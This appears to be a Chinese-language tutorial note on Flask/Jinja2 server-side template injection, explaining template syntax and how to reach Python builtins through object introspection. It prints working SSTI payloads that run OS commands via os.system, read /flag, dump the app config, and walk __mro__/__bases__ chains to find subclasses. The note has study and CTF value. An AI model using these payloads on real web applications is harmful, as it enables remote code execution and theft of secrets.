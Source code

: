 [https://jinja.palletsprojects.com/en/2.11.x/templates/#list-of-builtin-filters](https://jinja.palletsprojects.com/en/2.11.x/templates/#list-of-builtin-filters)

[https://dormousehole.readthedocs.io/en/latest/](https://dormousehole.readthedocs.io/en/latest/)

Flask/Jinja2 模板的语法,filters和内建函数,变量,都可能称为绕过的trick

基本语法如下:

*   {{ ... }} for [Expressions](https://jinja.palletsprojects.com/en/2.11.x/templates/#expressions) 里面可以是一个表达式,如1+1,字符串等,支持调用对象的方法,会渲染结果
    
*   `{% ... %}` for [Statements](https://jinja.palletsprojects.com/en/2.11.x/templates/#list-of-control-structures) ,可以实现for,if等语句,还支持set语法,可以给变量赋值

如

```python
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
```

找到chr函数,并且赋值给chr变量

## 命令执行构造

在`{{}}`我们可以执行表达式,但是命名空间是受限的,没有`builtins`,所以`eval`,`open`这些操作是不能使用的,但根据前面的知识,我们可以通过任意一个函数的`func_globals`而得到他们的命名空间,而得到`builtins`

### flask内置函数

这种方法之前好像没人提过

Flask 内置了两个函数url\_for 和 get\_flashed_messages,还有一些内置的对象

```
{{url_for.__globals__['__builtins__'].__import__('os').system('ls')}}
{{request.__init__.__globals__['__builtins__'].open('/flag').read()}}
```

如果过滤了config,又需要查config

```
{{config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```

### 通过基类查找子类

虽然模块间的变量不共享,但是所有类都是object的子类,所以可以通过object类而得到其他类

利用

```
#python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]
#python3.7
''.__class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
[].__class__.__base__
().__class__.__base__
{}.__class__.__base__
request.__class__.__mro__[1]
session.__class__.__mro__[1]
redirect.__class__.__mro__[1]
```